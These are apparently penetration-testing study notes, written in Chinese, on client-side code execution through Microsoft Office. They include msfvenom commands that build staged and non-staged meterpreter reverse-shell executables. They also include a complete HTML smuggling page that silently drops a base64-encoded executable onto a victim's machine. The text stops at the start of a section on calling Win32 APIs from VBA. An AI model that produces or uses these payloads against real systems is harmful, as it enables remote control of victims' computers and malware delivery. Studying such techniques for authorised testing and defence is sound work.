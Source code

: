 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，這種行為就稱為HTML Smuggling
### Example
```
<html><body><script>	
function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array( len ); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer;}
var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA... (產生的base64 )
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'staged.exe'; var a = document.createElement('a');
document.body.appendChild(a); a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url; a.download = fileName; a.click();
window.URL.revokeObjectURL(url);
</script></body></html>
```
## Executing Shellcode in Word
### Calling Win32 APIs from VBA
#### C language
`BOOL GetUserNameA(LPSTR lpBuffer,LPDWORD pcbBuffer );`


